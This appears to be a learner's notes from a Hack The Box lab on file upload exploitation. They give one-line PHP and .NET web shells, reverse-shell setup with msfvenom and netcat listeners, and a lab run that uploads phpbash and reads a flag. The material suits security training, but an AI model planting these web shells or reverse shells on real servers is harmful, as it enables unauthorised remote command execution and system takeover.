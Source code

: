 # Upload Exploitation

## Using common Web Shells

https://github.com/Arrexel/phpbash
https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

/opt/useful/SecLists/Web-Shells

http://SERVER_IP:PORT/uploads/phpbash.php

## Writing Custom Web Shell

PHP :
<?php system($_REQUEST['cmd']); ?>
http://SERVER_IP:PORT/uploads/shell.php?cmd=id

.NET :
<% eval request('cmd') %>

## Reverse Shell

https://github.com/pentestmonkey/php-reverse-shell
https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
vi php-reverse-shell.php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS

nc -lvnp OUR_PORT

## Generating Custom Reverse Shell Scripts

msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php

nc -lvnp OUR_PORT

## LAB

git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
vi php-reverse-shell.php

$ip = '10.10.14.126';     // CHANGE THIS
$port = '1234';   // CHANGE THIS

http://83.136.253.251:48204/uploads/php-reverse-shell.php

nc -lvnp 1234

--> Failed

git clone https://github.com/Arrexel/phpbash
cd phpbash/

http://83.136.253.251:48204/uploads/phpbash.php

www-data@ng-786011-fileuploadsabsentverification-kiq02-58dfbf7cf7-nbljf
:/var/www/html/uploads# cat /flag.txt

HTB{g07_my_f1r57_w3b_5h3ll}